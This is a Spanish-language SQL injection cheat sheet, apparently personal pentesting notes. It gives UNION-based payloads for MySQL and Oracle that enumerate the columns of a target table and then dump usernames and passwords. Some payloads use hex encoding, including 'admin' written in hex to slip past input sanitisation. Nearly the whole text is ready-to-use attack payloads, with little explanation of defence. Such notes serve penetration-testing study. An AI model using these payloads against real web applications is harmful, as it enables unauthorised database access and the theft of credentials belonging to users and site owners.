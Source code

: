### Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica

```bash 
# MYSQL 

❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las columnas existentes
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯' limit 0,1-- -          # Nos muestra las columnas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
❯ ' union select group_concat(column_name) from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -     # Nos muestra las columnas existentes en una sola linea, pero separadas por comas
```

```bash 
# ORACLE

❯ ' union select column_name from all_tab_columns where table_name='❮Table_Name❯'-- -   # Mostrar las columnas en Oracle 
```

### Para que nos muestre los datos de las columnas

```bash
# MYSQL 

❯ ' union select group_concat(username) from ❮DB_Name❯.❮Table_Name❯-- -          # Especificamos la DB y la tabla, esto si la DB no es la que esta en uso y solo asi podemos ver los datos que queremos
❯ ' union select group_concat(username) from ❮Table_Name❯-- -                    # Para que nos muestre los datos, aqui asumimos que la base de datos es la que esta en uso 
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select username||':'||password from ❮Table_Name❯-- -                   # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select group_concat(username,0x3a,password) from ❮Table_Name❯-- -      # Para que nos muestre los datos de los usuarios y su passwd separados por :

	 # Debemos de colocar los caracteres en Hexadecimal para evitar fallos
	 # : = 0x3a (Hex) 

❯ ' union select NULL,password from ❮Table_Name❯ where username = '0x61646d696e' -- -  # Podemos ofuscar (ocultar) la data, ya que muchas veces existe una sanitizacion que no permite ingresar cadenas de texto
	# 0x61646d696e (Hex) = admin 

❯ ' union select NULL,concat(username,':',password) from ❮Table_Name❯-- -         # Otra forma de agrupar los datos 
```

```bash 
# ORACLE

❯ ' union select username||':'||password from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
```
